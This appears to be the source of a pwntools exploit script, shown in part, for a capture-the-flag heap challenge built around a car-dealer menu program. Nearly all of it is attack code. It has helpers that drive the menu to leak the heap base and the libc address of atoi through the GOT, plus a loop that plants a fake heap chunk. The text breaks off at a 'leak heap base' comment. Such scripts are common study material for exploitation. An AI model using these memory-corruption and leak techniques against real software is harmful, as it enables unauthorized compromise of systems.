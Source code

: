 ```python
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_car(model, price):
    r.sendlineafter(">\n", "2")
    r.sendlineafter("model\n", model)
    r.sendlineafter("price\n", str(price))

def sel_car_cust(idx, cust_zip):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "4")

    for (choice, data) in cust_zip:
        r.sendlineafter(">\n", str(choice))
        r.sendlineafter(": \n", data)
    
    r.sendlineafter(">\n", "4") # exit cust mode

def leak_heap(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "3") # add com
    r.sendlineafter(": \n", "123") # input com
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "1") # list
    r.recvuntil("Firstname : ")
    heap_base = u64(r.recvline().strip().ljust(8, "\x00")) - 0xb90
    r.sendlineafter(">\n", "5")

    return heap_base

def leak_got(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "1")
    r.recvuntil("Firstname : ")
    atoi_addr = u64(r.recv(6).ljust(8, "\x00"))
    log.success("atoi_addr: "+hex(atoi_addr))
    libc.address += atoi_addr - libc.symbols['atoi']
    r.sendlineafter(">\n", "5")


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    for i in xrange(17):
        model = chr(ord("a")+i)*4
        price = 100+i
        log.info("add car: "+str(i))
        if i == 15: # fake chunk
            model = p64(0) + p64(0x51)
            price = 0x1111
        add_car(model, price)

    # leak heap base
```